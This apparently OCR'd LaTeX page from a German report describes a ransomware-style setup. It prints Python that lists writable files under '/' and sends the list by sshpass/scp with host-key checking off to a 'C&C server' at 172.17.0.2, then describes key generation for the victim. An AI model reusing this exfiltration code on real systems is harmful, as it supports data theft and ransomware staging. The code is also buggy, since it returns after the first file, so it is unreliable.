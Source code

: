 \documentclass[12pt]{article}
\begin{document}
\begin{figure}[h]
\caption{Python-Funktion zum auslesen der Kenndaten}
\begin{lstlisting}[language=python, style=code]
import os
import paramiko
def find_editable_files(directory):
editable_files = []
daten = open("kenndaten.txt","a")
for root, dirs, files in os.walk(directory):
	for file in files:
		file_path = os.path.join(root, file)
		#check if file is writeable
		if os.access(file_path, os.W_OK):
			editable_files.append(file_path)
			daten.write(file_path+"\n")
			return editable_files
			
find = find_editable_files("/")
#Passwort und IP eigentlich base64 codiert
ostring = "sshpass -p " + "root"  +  " scp -o StrictHostKeyChecking=no kenndaten.txt "+ "root"+"@172.17.0.2:/root/../"
os.system(ostring)
\end{lstlisting}

\end{figure}
Eine leere Liste namens editable\_files wird erstellt, um die Pfade der editierbaren Dateien zu speichern(vgl. Zeile 4). Eine Datei namens "kenndaten.txt" wird im Anhänge-Modus geöffnet. Der Datei-Handle wird der Variablen daten zugewiesen. Dies ermöglicht das Schreiben der gefundenen Dateipfade in diese Textdatei.
Der Befehl os.walk(directory) wird nun verwendet, um rekursiv durch das angegebene Verzeichnis und seine Unterverzeichnisse zu gehen(vgl. Zeile 6). Es werden drei Variablen zurückgegeben: root (aktuelles Verzeichnis), dirs (Unterverzeichnisse) und files (Dateien im aktuellen Verzeichnis).
Mit der Funktion os.access(file\_path, os.W\_OK) wird überprüft, ob die Datei beschreibbar ist(vgl. Zeile 9). Wenn die Datei beschreibbar ist, wird der Dateipfad zur Liste editable\_files hinzugefügt.
Abschließend wird die Funktion mit dem Pfad '/' aufgerufen und die ermittelten Kenndaten an den C\&C-Server verschickt.
\subsection{Schlüsselerzeugung}
Nachdem sich der Client bei dem C\&C-Server angemeldet und die Kenndaten übergeben hat, wird auf diesem der Schlüssel erzeugt und an den Victim-Server zurückgeschickt. Dies bewerkstelligt die Funktion 'wait\_for\_file'(vgl. Figure 4). Diese wartet bis die Kenndaten übergeben wurden und generiert anschließend den Schlüssel.\\
Hierbei wird start\_time wird auf den aktuellen Zeitpunkt gesetzt, um die Zeitmessung zu starten(Z. 2).
Anschließend wird eine Schleife ausgeführt, solange die Datei nicht vorhanden ist (not os.path.exists(file\_path))(Z.3).
Falls die Datei noch nicht gefunden wurde und der Timeout noch nicht erreicht ist, wird die Funktion für 1 Sekunde angehalten (time.sleep(1)), bevor erneut überprüft wird, ob die Datei vorhanden ist.
\end{document}
